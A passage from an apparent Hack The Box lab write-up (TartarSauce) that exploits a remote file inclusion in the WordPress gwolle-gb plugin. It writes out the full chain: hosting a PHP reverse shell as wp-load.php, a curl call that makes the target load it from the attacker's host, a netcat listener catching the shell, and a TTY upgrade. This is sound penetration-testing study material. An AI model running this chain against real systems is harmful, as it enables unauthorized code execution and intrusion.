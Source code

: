 ```
Copied to: /hackthebox/oscp-prep/tartarsauce/38861.txt
```

I need to visit this location: `wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]` and place a file on my [localhost](http://localhost) named wp-load.php that gets included and executed on the web server. This can be abused to place a reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/tartarsauce]
└─$ cp /tools/shells/php-reverse-shell.php wp-load.php
                                                                                                                                                                                                                                             
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/tartarsauce]
└─$ nano wp-load.php 
                                                                                                                                                                                                                                             
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/tartarsauce]
└─$ sudo python3 -m http.server 80               
[sudo] password for user: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Start a netcat listener and use this command to call the reverse shell:

```bash
curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.17.28/
```

And I got a reverse shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/tartarsauce]
└─$ nc -lvnp 4444                                                 
listening on [any] 4444 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.88] 42880
Linux TartarSauce 4.15.0-041500-generic
 15:55:24 up  1:48,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@TartarSauce:/$ export TERM=xterm
export TERM=xterm
www-data@TartarSauce:/$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/tartarsauce]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@TartarSauce:/$
```

I also upgraded the shell to a real shell that also works when using shortcuts.
